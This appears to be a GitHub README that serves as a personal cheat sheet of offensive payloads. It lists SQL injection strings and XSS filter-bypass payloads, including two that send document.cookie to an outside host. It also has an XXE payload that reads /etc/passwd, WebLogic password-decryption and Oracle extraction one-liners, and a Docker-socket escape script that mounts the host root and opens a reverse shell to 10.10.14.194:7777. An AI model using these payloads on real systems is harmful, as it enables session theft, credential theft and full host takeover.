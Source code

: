 ## Just a useless set of payload used by me. Saved here for remembrance.
##### Payloads List
* SQL Injection
  * Time Based Blind:
    - `(select(if(user()like(user()),sleep(4),sleep(2))))`
    - `x' AND (SELECT 4321 FROM (SELECT(SLEEP(2-(IF(20=20,0,5)))))x)-- asd`
    - `x' AND (SELECT 2312 FROM (SELECT(SLEEP(2)))asd)-- dsa`
  * Error Based:
    - `x'.and.(select.count(*).from.shouldNotExistTable)=1.or.'1'='0.` (this is for error based sqli and should return error like : "Table 'x.shouldNotExistTable' doesn't exist")

* Cross Site Scripting
  - `[document.domain].find(confirm)` (helped me to bypass WAFs/filters or useful if input is echoed or used as variable in js files)
  - `['h0nus'].find(window[String.fromCharCode(97,108,101,114,116)])` (pops an alert with h0nus string :) useful for waf bypasses or evade checks)
  - `('asd').link(eval("var asd=new Function('return prompt(\"h0nus\")'); asd();"))` (pops a prompt with h0nus string )
  - `('asd').anchor(prompt());` (just pops a prompt) 
  - `var url="https://any.host.name/",params="asd="+document.cookie,http=new XMLHttpRequest;http.open("GET",url+"?"+params,!0),http.send(null);` To steal cookies
  - `var url="https://cors-anywhere.herokuapp.com/https://any.host.name/",params="asd="+document.cookie,http=new XMLHttpRequest;http.open("GET",url+"?"+params,!0),http.send(null);` To steal cookies and bypass/beat CORS

* XML External Entity
```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "https://docs.oracle.com/cd/E13153_01/wlcp/wlss40/sip-app_1_0.dtd.txt">
<!ENTITY % condition 'aaa)>
<!ENTITY &#x25; file SYSTEM "/etc/passwd">
<!ENTITY &#x25; eval "
<!ENTITY &#x26;#x25; error SYSTEM &#x27;http://&#x25;file;:asd@localhost:22&#x27;>">
&#x25;eval;
&#x25;error;
<!ELEMENT aa (bb'>
%local_dtd;
]>
```
  * (Used when i had no space left for internal entities into payload/dtd) 
  * `<![CDATA[ <script>prompt(2)</script> ]]>` (Sometimes WAFS block by keywords like DOCTYPE, ENTITY & ect, but you can inject into `<![CDATA[X]]>` )

### PWN scripts/tips
* Oracle DB:
  * Oneliner extract data: `echo "QUERY" | /PATH/TO/ORACLE/CLIENT/bin/sqlplus USER/PASSr@IP:PORT/SERVICE`
* WebLogic:
  * Get Username:
    * Get file PATH_OF_WEBLOGIC/config/backup_config.xml and search for "<default-realm>" and get the user there.
  * Dump Password:
    * `echo "domain=\"PATH_OF_WEBLOGICSERVER\";service=weblogic.security.internal.SerializedSystemIni.getEncryptionService(domain);encryption=weblogic.security.internal.encryption.ClearOrEncryptedService(service); print encryption.decrypt(\"{AES}HASH\");exit" | /PATH/OF/wlst.sh`

* Docker:
  * Get all containers or images:
    * `curl -i -s --unix-socket /var/run/docker.sock -X GET http://localhost/containers/json`

  * Create a new container
    * `curl -i -s --unix-socket /var/run/docker.sock -X POST \
    -H "Content-Type: application/json" \
    --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["bash", "/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' \
    http://localhost/containers/container_id/exec`

  * Start the newer container with the command
    * `curl -i -s --unix-socket /var/run/docker.sock -X POST \
    -H 'Content-Type: application/json' \
    --data-binary '{"Detach": false,"Tty": false}' \
    http://localhost/exec/exec_id/start`
    
  * Final PoC:
    * `#!/bin/bash
    pay="bash -c 'bash -i >& /dev/tcp/10.10.14.194/7777 0>&1'"
    payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$pay\\\"\"]"
    response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)
    revShellContainerID=$(echo "$response" | cut -d'"' -f4)
    curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start
    sleep 1
    curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"`
